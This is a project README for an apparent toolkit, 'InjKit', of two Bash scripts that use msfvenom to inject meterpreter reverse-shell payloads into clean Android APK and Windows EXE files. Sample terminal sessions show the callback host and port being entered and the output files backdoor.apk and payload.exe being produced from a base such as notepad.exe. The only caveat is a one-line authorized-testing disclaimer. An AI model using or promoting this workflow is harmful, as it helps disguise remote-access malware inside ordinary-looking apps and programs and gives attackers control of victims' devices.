 # InjKit


Payload Injector Toolkit (APK & EXE)

This toolkit provides two simple yet effective Bash scripts that allow you to inject meterpreter reverse shell payloads into clean APK or EXE files using msfvenom.


---

📁 Included Scripts

1. apk_injector.sh — Android APK Injector

Injects a reverse shell payload into a clean APK file using Metasploit’s msfvenom.

🔧 Features:

Simple interactive interface

Verifies APK file path before processing

Uses msfvenom to inject payload

Outputs a new APK file with embedded payload


🚀 Example Usage:

chmod +x apk_injector.sh
./apk_injector.sh

🖥️ Sample Terminal Interaction:

===============================
        APK Payload Injector   
===============================

🌐 Enter LHOST: 192.168.1.100

🎯 Enter LPORT: 4444

Enter the path to a clean APK file: /root/app.apk

Enter the output file name (e.g., evil.apk): backdoor.apk

[*] Injecting payload into /root/app.apk...

[+] Payload injected successfully! Saved as: backdoor.apk


---

2. exe_injector.sh — Windows EXE Injector

Injects a reverse shell payload into a clean EXE file using Metasploit’s msfvenom.

🔧 Features:

Interactive prompts for easy setup

Validates input EXE file path

Supports any EXE (e.g., notepad.exe) as a base

Uses msfvenom for injection

Generates new malicious EXE


🚀 Example Usage:

chmod +x exe_injector.sh
./exe_injector.sh

🖥️ Sample Terminal Interaction:

===============================
      EXE Payload Injector     
===============================

🌐 Enter LHOST: 192.168.1.100

🎯 Enter LPORT: 5555

Enter the path to a clean EXE file (e.g., notepad.exe): /root/notepad.exe

Enter the output file name (e.g., evil.exe): payload.exe

[*] Injecting payload into /root/notepad.exe...

[+] Payload injected successfully! Saved as: payload.exe


---

⚠️ Notes

These tools rely on msfvenom, part of the Metasploit Framework.

Make sure msfvenom is installed and accessible in your PATH.

Use within ethical boundaries and only in environments you are authorized to test.



---

💬 Feedback

Feel free to submit issues, improvements, or suggestions.
Made with ❤️ for educational and penetration testing use.

---
